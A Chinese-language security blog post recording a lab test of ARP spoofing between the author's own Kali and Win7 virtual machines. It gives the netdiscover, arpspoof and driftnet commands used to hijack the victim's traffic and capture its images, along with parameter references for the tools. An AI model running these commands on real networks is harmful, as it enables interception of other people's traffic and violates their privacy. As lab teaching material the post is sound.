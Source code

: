 ```yaml
---
title: 内网渗透：记一次局域网arp劫持测试
author: Kol Huang
date: 2020-08-25 20:40:00 +0800
categories: [Blogging, kali内网渗透]
tags: [security]
comments: true
math: true
image: /HYCBlog/assets/img/security/security_cover.jpg
---
```




攻击前准备：

1. 一台Kali虚拟机作为attacker

2. 一台win7虚拟机作为victim

3. win7虚拟机开桥接模式，模拟以太网连接。

4. 用到的主要命令：

   ```sh
   arpspoof
   driftnet
   ```



## Step1：扫描局域网内主机

```sh
netdiscover -r 192.168.199.0/24 #扫描范围
```



![security_netdiscover](/HYCBlog/assets/img/security/security_netdiscover.png)

观察结果，推断出网关IP为`192.168.199.1`，目标主机地址为`192.168.199.169`。具体如何推断出目标主机的IP，可以从电脑型号以及当前的活跃情况推断。其实大多数attacker不会在乎自己攻击的是哪个特定主机，会在能力范围内把所有主机攻瘫。



## Step2：arp欺骗

```sh
arpspoof -i eth0 -t 192.168.199.1(网关) 192.168.199.169(目标主机)
```

在运行arpspoof之前，需要执行以下安装，否则会报`command not found`

```sh
apt-get install dsniff
```

![security_arpspoof](/HYCBlog/assets/img/security/security_arpspoof.png)

出现上述界面代表劫持成功。



## Step3：测试结果

在win7主机上通过Internet查看图片，利用driftnet工具将流经kali虚拟机的图片抓取，并显示在kali上。

```sh
driftnet -t eth0
```

![security_driftnet](/HYCBlog/assets/img/security/security_driftnet.png)

抓取成功。



至此，win7已被kali实现arp劫持。

Arpspoof是一个非常好的ARP欺骗的源代码程序。它的运行不会影响整个网络的通信，该工具通过替换传输中的数据从而达到对目标的欺骗。

```markdown
主要参数
-i，--interface要使用的网络接口，作为参数给出。 如果不使用此选项，则该接口默认为第一个正在运行的非环回接口。
-r，--repeat以参数指定的秒数为单位连续重新发送数据包。 延迟为零表示仅发送一个数据包。
-a，--attacker-ip选择另一台计算机（运行该程序的计算机除外）作为要伪装的计算机。
-g，--gateway-ip欺骗默认网关以外的IP（作为参数）。
-v，--verbose打印有关所涉及机器的额外信息。
```



Driftnet工具：Driftnet监视网络流量，抓取网络流量中的JPEG和GIF图像。这侵犯了人们的隐私，无论何时何地我们都不能这么做。除此之外，它还可以从网络中提取MPEG音频数据。

```markdown
语法： driftnet   [options]   [filter code]
主要参数：
 -b               捕获到新的图片时发出嘟嘟声
-i  interface     选择监听接口
-f  file   读取一个指定pcap数据包中的图片
-p  不让所监听的接口使用混杂模式
-a  后台模式：将捕获的图片保存到目录中（不会显示在屏幕上）
-m number 指定保存图片数的数目
-d directory  指定保存图片的路径
-x prefix  指定保存图片的前缀名
使用举例：
1.实时监听： driftnet -i wlan0
2.读取一个指定pcap数据包中的图片： driftnet -f /home/linger/backup/ap.pcapng -a -d /root/drifnet/
```



参考：

[arpspoof](https://github.com/smikims/arpspoof)

[安全工具——Driftnet与ARP中毒的结合应用](https://xz.aliyun.com/t/4001)

[图片捕获工具driftnet](https://www.cnblogs.com/lingerhk/p/4065956.html)

